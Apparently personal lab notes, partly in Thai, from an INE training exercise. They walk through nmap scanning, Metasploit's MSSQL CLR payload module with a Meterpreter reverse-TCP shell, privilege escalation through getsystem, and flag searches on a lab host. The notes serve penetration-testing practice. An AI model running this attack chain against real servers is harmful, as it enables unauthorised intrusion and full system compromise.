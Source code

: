 `nmap -sC -sV target.ine.local — min-rate 1000`
`nmap --top-ports 65536 target.ine.local -sV`
1433/tcp  open  ms-sql-s           Microsoft SQL Server 2012 11.00.6020; SP3


`search MSSQL 2012`
exploit/windows/mssql/mssql_clr_payload      1999-01-01       excellent  Yes    Microsoft SQL Server Clr Stored Procedure Payload Execution

`use 0`
`set RHOSTS target.ine.demo`
`exploit`

Exploit aborted due to failure: bad-config: Target SQL server arch is x64, payload architecture is x86
`set PAYLOAD windows/x64/meterpreter/reverse_tcp`
สถาปัตย์ไม่ตรง ต้องแก้ payload
`run`

`shell`

`dir /a:d` show only directory

`cd config` 
Access is denied.

`ctrl + c`
exit tunnal
`getprivs` 
แสดงสิทธิที่ user 

SeAssignPrimaryTokenPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege

SeImpersonatePrivilege  ใช้ยกระดับสิทธิตัวเองได้
`getsystem` ใช้ยกระดับสิทธิเป็น system

`search -f flag*.txt`
find flag

`dir C:\Windows\System32\*.txt /s /b` 
search txt 

EscaltePrivilageToGetThisFlag.txt